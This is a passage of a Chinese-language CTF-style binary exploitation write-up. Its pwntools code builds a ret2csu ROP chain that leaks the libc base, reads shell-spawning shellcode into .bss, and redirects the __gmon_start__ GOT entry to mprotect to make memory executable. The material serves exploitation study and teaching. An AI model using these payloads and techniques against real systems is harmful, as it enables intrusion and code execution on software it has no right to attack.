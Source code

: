 ```python
p.sendline(payload1)
leak_write_real_addr=u64(p.recv(8))
#print hex(leak_write_real_addr)
libc_base=leak_write_real_addr-libc.symbols['write']
print hex(libc_base)
```

仿照之前的步骤，return到gadgets调用read函数向空内存的bss段读入shellcode：

```python
read_got_addr=elf.got['read']
bss_addr=elf.bss()
print hex(bss_addr)
payload2='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(bss_addr)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Input:\n')
p.sendline(payload2)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
```

我们都知道got表中存放的是函数的真实地址，由于要调用mprotect函数，因此我们可以将mprotect的真实地址写入到空的got中，这里选取elf.got['__gmon_start__']：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623400487615-a221bc55-041d-4f29-8051-10afe1cd2766.png)

当某个函数调用之后，其真实地址会写入到got表中，所以上图一看就知道__gmon_start__没有执行过，所以说将其内存覆盖也没有什么关系。

> 《Linux 程序符号__gmon_start__》：[https://www.jianshu.com/p/ebd516326a36](https://www.jianshu.com/p/ebd516326a36)
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623400729364-3ed0226e-7cc6-4514-bb90-480cbd4def44.png)

> got表中存放的是函数的真实地址。
>

```python
target_got=elf.got['__gmon_start__']
print target_got
#payload3='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(target_plt)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
payload3='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(target_got)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Input:\n')
p.sendline(payload3)
#gdb.attach(p)
target=libc_base+libc.symbols['mprotect']
print hex(target)
p.sendline(p64(target))
```

之后执行__gmon_start__，因为got['__gmon_start__']已经被更改为mprotect，所以这次执行相当于执行mprotect【更改data段的权限为0x7（可读可写可执行）（r=4，w=2，x=1）】：

```python
#gdb.attach(p)
payload4='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(target_got)+p64(0x7)+p64(0x1000)+p64(bss_addr-0xa88)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.sendline(payload4)
```
